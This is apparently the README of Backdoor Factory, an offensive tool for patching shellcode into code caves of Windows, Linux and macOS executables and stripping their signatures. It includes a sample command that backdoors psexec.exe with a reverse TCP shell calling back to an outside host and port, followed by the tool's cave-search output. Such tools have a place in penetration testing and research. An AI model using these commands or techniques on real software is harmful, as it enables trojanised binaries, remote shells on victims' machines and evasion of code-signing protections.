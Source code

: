 ./backdoor.py -h 
    Usage: backdoor.py [options]

    
---

##Features:

###PE Files

    Can find all codecaves in an EXE/DLL.
    By default, clears the pointer to the PE certificate table, thereby unsigning a binary.
    Can inject shellcode into code caves or into a new section.
    Can find if a PE binary needs to run with elevated privileges.
    When selecting code caves, you can use the following commands:
      -Jump (j), for code cave jumping
      -Single (s), for patching all your shellcode into one cave
      -Append (a), for creating a code cave
      -Ignore (i or q), nevermind, ignore this binary
    Can ignore DLLs
    Import Table Patching
    AutoPatching (-m automtic)
    Onionduke (-m onionduke)

###ELF Files

    Extends 1000 bytes (in bytes) to the TEXT SEGMENT and injects shellcode into that section of code.

###Mach-O Files
    Pre-Text Section patching and signature removal

###Overall
    
    The user can :
      -Provide custom shellcode.
      -Patch a directory of executables/dlls.
      -Select x32 or x64 binaries to patch only.
      -Include BDF is other python projects see pebin.py and elfbin.py

---------------------------------------------

Sample Usage:
---

###Patch an exe/dll using an existing code cave:

    ./backdoor.py -f psexec.exe -H 192.168.0.100 -P 8080 -s reverse_shell_tcp 

    [*] In the backdoor module
    [*] Checking if binary is supported
    [*] Gathering file info
    [*] Reading win32 entry instructions
    [*] Looking for and setting selected shellcode
    [*] Creating win32 resume execution stub
    [*] Looking for caves that will fit the minimum shellcode length of 402
    [*] All caves lengths:  (402,)
    ############################################################
    The following caves can be used to inject code and possibly
    continue execution.
    **Don't like what you see? Use jump, single, append, or ignore.**
    ############################################################
    [*] Cave 1 length as int: 402
    [*] Available caves:
    1. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2e4d5 End: 0x2e6d0; Cave Size: 507
    2. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2e6e9 End: 0x2e8d5; Cave Size: 492
    3. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2e8e3 End: 0x2ead8; Cave Size: 501